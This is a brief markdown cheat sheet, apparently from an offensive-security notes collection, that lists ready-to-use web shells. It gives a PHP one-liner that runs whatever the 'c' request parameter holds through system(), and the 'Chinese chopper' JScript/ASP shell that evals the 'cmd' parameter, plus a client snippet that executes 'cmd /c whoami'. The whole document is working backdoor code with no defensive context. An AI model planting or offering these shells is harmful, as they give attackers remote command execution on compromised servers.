 # Web Shells




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```




## ASP



### JScript

Chinese chopper:

```cs
// Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>
// Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```
